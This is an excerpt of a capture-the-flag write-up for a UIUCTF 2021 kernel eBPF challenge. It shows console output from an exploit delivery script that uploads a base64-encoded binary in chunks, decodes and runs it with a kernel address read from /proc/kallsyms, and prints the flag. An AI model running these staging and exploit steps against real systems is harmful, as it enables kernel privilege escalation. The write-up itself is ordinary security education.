 ```bash  
[*] Sending chunk 18/35  
[*] Sending chunk 19/35  
[*] Sending chunk 20/35  
[*] Sending chunk 21/35  
[*] Sending chunk 22/35  
[*] Sending chunk 23/35  
[*] Sending chunk 24/35  
[*] Sending chunk 25/35  
[*] Sending chunk 26/35  
[*] Sending chunk 27/35  
[*] Sending chunk 28/35  
[*] Sending chunk 29/35  
[*] Sending chunk 30/35  
[*] Sending chunk 31/35  
[*] Sending chunk 32/35  
[*] Sending chunk 33/35  
[*] Sending chunk 34/35  
[*] Sending chunk 35/35  
[*] cat /tmp/a.gz.b64 | base64 -d > /tmp/a.gz  
[*] gzip -d /tmp/a.gz  
[*] chmod +x /tmp/a  
[*] mv /tmp/a /tmp/exploit  
[*] /tmp/exploit $(cat /proc/kallsyms | grep uiuctf | awk '{print $1}')  
Flag: uiuctf{just_a_bpf_of_fun_0468dae3}  
[*] Closed connection to bpf-badjmp.chal.uiuc.tf port 1337  
```

Original writeup (https://github.com/Super-
Guesser/ctf/tree/master/2021/uiuctf/kernel/bpf_badjmp).